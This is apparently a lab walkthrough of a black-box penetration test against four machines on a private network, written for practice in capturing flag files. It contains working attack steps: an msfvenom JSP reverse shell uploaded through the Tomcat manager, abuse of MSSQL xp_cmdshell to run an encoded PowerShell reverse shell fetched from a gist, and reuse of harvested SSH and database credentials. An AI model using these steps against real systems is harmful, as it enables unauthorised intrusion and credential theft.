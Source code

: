 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Penetration Test 1

### Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

#### Nmap options

* `-sV` for version identification 
* `-n` for disabling reverse DNS lookup 
* `-v` for Verbose 
* `-Pn` to assume the host is alive 
* `-p-` to scan all the ports 
* `-T4` to speed things up 
* `-iL` to use a list of IPs as input \(ips.txt\) 
* `--open` to see just open ports and not closed / filtered ones 
* `-A` for detailed information and running some scripts

#### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.101 | Linux |
| 172.16.64.140 | Linux |
| 172.16.64.182 | Linux |
| 172.16.64.199 | Windows |

### Open Ports and Running Services

####  172.16.64.101

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080 | http | Apache Tomcat/Coyote JSP engine 1.1 |

#### 172.16.64.140

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 |

#### 172.16.64.182

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |

#### 172.16.64.199

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds |  |
| 1433 | ms-sql-s | Microsoft SQL Server 2014 |

### Machines

#### 172.16.64.101

Apache Tomcat has [http://172.16.64.101:8080/manager/html](http://172.16.64.101:8080/manager/html) as a management url. In case your authentication fail several times, a 401 page is presented, with a default username and password:

![](../../../../.gitbook/assets/image.png)

```bash
# Terminal 1
nc -l -p 8080

# Terminal 2
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=8080 -f war -o revshell.war

# 1. Upload to http://172.16.64.10/manager/html
# 2. Open the suggested url in your browser to execute the reverse shell
# 3. Go to your opened nc listener on Terminal one and execute:
find / | grep flag.txt
/home/developer/flag.txt
/home/adminels/Desktop/flag.txt

# Your results should be something like:
cat /home/developer/flag.txt
Congratulations, you got it!
cat /home/adminels/Desktop/flag.txt
You did it!
```

#### 172.16.64.140

Using Dirbuster we find a secret folder called **project**. This url is accessible under **admin/admin** credentials.

![](../../../../.gitbook/assets/image%20%281%29.png)

![We find suspicious files under /project/backup/test](../../../../.gitbook/assets/image%20%283%29.png)

![](../../../../.gitbook/assets/image%20%282%29.png)

{% embed url="http://172.16.64.140/project/backup/test/sdadas.txt" %}

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```

#### 172.16.64.199

```bash
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3  | base64 -w 0 > encoded_payload
cat encoded_payload # We'll use this payload in our shell
# Open listener In your terminal
```

```bash
nc -lvnp 1234
```

```bash
# Use the credentials found in the fuzzed file under 
# project/backup/test in the previous machine
python2 /usr/share/doc/python3-impacket/examples/mssqlclient.py fooadmin:fooadmin@172.16.64.199
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami
xp_cmdshell powershell -e <payload_from_previous_step>
```

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################
```

We find at the end of the `id_rsa.pub` file there are some ssh credentials for the remaining active machine:

#### 172.16.64.182

We use the credentials harvested in the Windows machine:

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
find . | grep flag
cat flag.txt 
Congratulations, you got it!
```

